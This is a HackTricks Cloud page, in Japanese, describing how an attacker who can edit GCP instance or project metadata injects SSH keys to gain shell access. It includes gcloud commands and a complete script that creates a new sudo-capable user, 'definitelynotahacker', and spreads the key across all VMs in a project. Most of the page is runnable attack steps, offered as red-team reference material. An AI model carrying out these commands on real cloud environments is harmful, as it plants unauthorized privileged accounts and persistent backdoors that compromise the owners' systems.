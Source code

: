 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を取得した場合、重大なセキュリティリスクを引き起こす可能性があります**。

#### **カスタムメタデータへのSSHキーの組み込み**

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用のPython Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。この重要なコンポーネントは、**認可されたSSH公開鍵の更新**のためにインスタンスメタデータエンドポイントを**定期的にチェック**するように設計された[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)です。

したがって、攻撃者がカスタムメタデータを変更できる場合、デーモンが新しい公開鍵を見つけるようにし、それが処理されて**ローカルシステムに統合される**ことになります。この鍵は、**既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、鍵の形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります**。攻撃者はホストを侵害することができます。

#### **既存の特権ユーザーにSSHキーを追加する**

1. **インスタンス上の既存のSSHキーを調査する:**
*   インスタンスとそのメタデータを記述するコマンドを実行して、既存のSSHキーを見つけます。出力の関連セクションは`metadata`の下、特に`ssh-keys`キーの下にあります。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSHキーの形式に注意してください: ユーザー名は鍵の前にあり、コロンで区切られています。
2. **SSHキーのメタデータ用のテキストファイルを準備する:**
* ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは、新しいキーを追加しながら既存のキーを保持するために重要です。
3. **ターゲットユーザー（この例では`alice`）のために新しいSSHキーを生成する:**
*   `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド（`-C`）がターゲットユーザー名と一致するようにします。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 新しい公開鍵を`meta.txt`に追加し、インスタンスのメタデータに見られる形式を模倣します。
4. **インスタンスのSSHキーのメタデータを更新する:**
*   `gcloud compute instances add-metadata`コマンドを使用して、更新されたSSHキーのメタデータをインスタンスに適用します。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **新しいSSHキーを使用してインスタンスにアクセスする:**
*   新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー（この例では`alice`）のコンテキストでシェルにアクセスします。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **新しい特権ユーザーを作成し、SSHキーを追加する**

興味深いユーザーが見つからない場合は、`sudo`権限が与えられる新しいユーザーを作成することが可能です:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### プロジェクトレベルのSSHキー <a href="#sshing-around" id="sshing-around"></a>

**プロジェクトレベルでSSHキーを適用する**ことで、クラウド環境内の複数の仮想マシン（VM）へのSSHアクセスを拡大することが可能です。このアプローチにより、プロジェクト内の明示的にプロジェクト全体のSSHキーをブロックしていないインスタンスへのSSHアクセスが可能になります。以下は要約ガイドです：

1. **プロジェクトレベルでSSHキーを適用する:**
*   `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からプロジェクトのメタデータにSSHキーを追加します。この操作により、VMが「プロジェクト全体のSSHキーをブロック」オプションを有効にしていない限り、プロジェクト内のすべてのVMでSSHキーが認識されます。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **プロジェクト全体のキーを使用してインスタンスにSSH接続する:**
* プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSH接続できます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
* インスタンスにSSH接続する直接的な方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは、現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。

## 参考文献

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
